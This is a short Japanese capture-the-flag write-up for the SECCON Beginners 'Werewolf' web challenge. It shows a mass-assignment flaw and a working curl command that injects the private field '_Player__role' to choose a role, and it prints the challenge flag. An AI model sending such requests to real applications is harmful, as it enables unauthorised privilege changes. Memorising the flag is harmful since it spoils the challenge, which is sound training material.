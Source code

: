 ## Werewolf
### 解法
- ソースを見ると、L40 付近でPOSTされたパラメータをすべてPlayerに設定していることがわかる。
- よってPOST時に __role のパラメータを追加して渡すことで自分の役割を自由に決めることができる
- __role はprivate変数のため、dict上は『_Player__role』で管理されていることに注意

### 例
curl の場合
```
curl -v -X POST --data 'name=aaa&color=red&_Player__role=WEREWOLF' https://werewolf.quals.beginners.seccon.jp/
```

### flag
```
ctf4b{there_are_so_many_hackers_among_us}
```
